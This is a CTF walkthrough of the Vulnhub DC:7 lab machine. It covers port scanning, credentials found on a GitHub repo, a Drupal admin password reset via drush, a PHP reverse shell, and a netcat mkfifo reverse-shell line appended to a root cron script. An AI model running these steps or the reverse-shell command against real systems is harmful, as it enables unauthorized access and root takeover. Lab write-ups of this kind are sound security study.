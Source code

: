 # DC:7 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

DC:7 is a CTF created by DCAU. You can find the technical information about this CTF on the VulnHub page. First of all, make sure to download and install the correct OVA file from VulnHub. (https://download.vulnhub.com/dc/DC-7.zip).

This CTF is slightly more challenging than others. It requires understanding file permissions — such as who can execute or edit a file — and thinking outside the box, like searching for clues on the author’s GitHub page.
## 1 - Reconnaissance

I began with port scanning. Basic port and script scanning are crucial steps, especially if you’re not planning to use more advanced recon tools.

```bash
rustscan <machine_ip> or nmap -p- -vv- 
nmap -PN -sS -sV --script vuln -p 22,80 -oN finalscan
```

And then I checked the webpage. There was a note from author.

![DC7](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*WblfGgIAYVLZFdgJdqsDMQ.png "DC7")

I searched for the username “DC7USER” in a browser and found a GitHub account with the same name. This account had a single repository called “staffdb,” where I discovered dc7user’s credentials.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8bIk5k-Bq89pHRs9ieBb6Q.png "DC7")

I first attempted to log in via the login panel, which was located at the top right corner of the page, but my attempt failed. Next, I tried using SSH with these credentials and successfully accessed the shell for the dc7user account.

## 2 - Exploiting

Inside the home directory, I found one file named “mbox” and a directory named “backups.” I started by reading the “mbox” file, which contained emails between the root user and dc7user, with a note mentioning a cron job on the machine.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*y8Un0haGIdf1n3VruXzVeg.png "DC7")

The cron job was located at /opt/scripts/backups.sh, and I had read access to this file. The backups.sh script simply deleted contents within the backups directory and refreshed it.

![DC7](https://miro.medium.com/v2/resize:fit:828/format:webp/1*1bmxHOdcMc-IL32g1DP2nA.png "DC7")

I noticed a drush command in the file, which allowed me to use it directly to change the admin password. Using the following simple command, I reset the admin password to "admin."

```bash
drush user-password admin --password=admin
```

`drush` is a command-line tool for managing Drupal CMS. After successfully changing the admin password, I logged in to access and manage the webpage.

## 3- Being admin on webpage

The admin interface was the standard Drupal management panel, which was somewhat complex at first glance. I navigated to the “Manage” section and selected “Content.” My goal was to insert a PHP reverse shell payload to obtain a reverse shell, but the webpage interpreted my PHP code as simple HTML.

If you have kali linux the reverse shell would be in “/usr/share/webshells” , but if you don’t have it you can just google the “pentestmonkey reverse shell”.

After that I download the php.tar.gz file from the original drupal page. So that I will run php code on my webpage. After that I just modify my php-reverse shell and started a netcat session on my local computer.

## 4-Getting root shell

And now I have a new netcat shell and I am a www-data user. Unlike the dc7user I can modify the backups.sh file and I can have root shell.

So the goal now is getting a shell with backups.sh cronjob. I searched the internet how I can add a line and get a shell. I found it on the pentestmonkey again.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 1111 >/tmp/f' >> backups.sh
``` 

This is a cronjob so it won’t give you a reverse shell at the moments. After several minutes now I have shell in my netcat session as a root. So I can read the “theflag.txt”

![DC7](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*XfU277VpLj8ps7bE5UfeSA.png "DC7")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)